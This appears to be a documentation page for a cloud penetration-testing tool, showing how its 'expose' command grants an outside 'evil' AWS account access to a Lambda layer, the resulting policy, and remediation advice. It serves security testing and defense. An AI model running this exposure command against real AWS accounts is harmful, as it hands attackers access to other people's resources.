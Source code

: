 # Lambda Layers

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service lambda-layer --name test-resource-exposure:1
```

* To view the contents of the Lambda layer policy, run the following:

```bash
export VICTIM_RESOURCE_ARN=arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure
export VERSION=3
aws lambda get-layer-version-policy \
    --layer-name $VICTIM_RESOURCE_ARN \
    --version-number $VERSION
```

* Observe that the output of the overly permissive Lambda Layer Policy resembles the example shown below.

## Example

Observe that the Evil principal's account ID (`999988887777`) is given `lambda:GetLayerVersion` access to the Lambda layer `arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure:1`.

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"lambda:GetLayerVersion\",\"Resource\":\"arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure:1\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:root\"},\"Action\":\"lambda:GetLayerVersion\",\"Resource\":\"arn:aws:lambda:us-east-1:111122223333:layer:test-resource-exposure:1\"}]}",
    "RevisionId": ""
}
```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that Lambda Layers are only shared with trusted accounts.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Lambda Layers. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Lambda Layers**: Tightly control access to the following IAM actions:
  - [lambda:AddLayerVersionPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_AddLayerVersionPermission.html): _Grants permission to add permissions to the resource-based policy of a version of an AWS Lambda layer_
  - [lambda:GetLayerVersionPolicy](https://docs.aws.amazon.com/lambda/latest/dg/API_GetLayerVersionPolicy.html): _Grants permission to view the resource-based policy for a version of an AWS Lambda layer_
  - [lambda:ListFunctions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListFunctions.html): _Grants permission to retrieve a list of AWS Lambda functions, with the version-specific configuration of each function_
  - [lambda:ListLayers](https://docs.aws.amazon.com/lambda/latest/dg/API_ListLayers.html): _Grants permission to retrieve a list of AWS Lambda layers, with details about the latest version of each layer_
  - [lambda:ListLayerVersions](https://docs.aws.amazon.com/lambda/latest/dg/API_ListLayerVersions.html): _Grants permission to retrieve a list of versions of an AWS Lambda layer_
  - [lambda:RemoveLayerVersionPermission](https://docs.aws.amazon.com/lambda/latest/dg/API_RemoveLayerVersionPermission.html): _Grants permission to remove a statement from the permissions policy for a version of an AWS Lambda layer_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [aws lambda add-layer-version-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/add-layer-version-permission.html)
* [aws lambda get-layer-version-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/get-layer-version-policy.html)
* [Access Analyzer support for AWS Lambda Functions](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-lambda)
